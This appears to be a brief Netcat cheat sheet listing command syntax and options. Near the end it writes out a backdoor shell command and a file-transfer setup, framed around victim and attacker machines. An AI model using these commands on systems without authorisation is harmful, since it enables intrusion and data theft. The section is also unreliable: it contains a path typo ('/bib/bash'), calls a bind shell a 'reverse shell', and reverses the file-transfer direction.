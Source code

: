 # NETCAT

Netcat functions as a back-end tool that allows for port scanning and port listening. In addition, you can actually transfer files directly through Netcat or use it as a backdoor into other networked systems. Partnered with a tool like Varonis Edge, you would receive an alert of any unusual activity and could then use Netcat to investigate. Lastly, Netcat is a flexible tool because of how it can be scripted for larger tasks.

** Syntax **

> # nc [options] hostname port [port]

# Options

* No DNS lookup :

> -n

* Verbose output :

> -v

* To specify the port to connect :

> -p

* For listening :

> nc -l [port_no]

* For help :

> nc -h

* For connecting to specified IP and port :

> nc [IP] [port]

* For executing commands :

> -e [command]

* For reverse shell :

In victim's machine
> nc -l -p [port] -e /bib/bash

In attacker's machine
> nc [IP] [port]

* Remote file transfering :

In victim's machine
> nc -l -p [port] > filename

In attacker's machine
> cat '/path_to_file/filename' | nc [IP] [port]


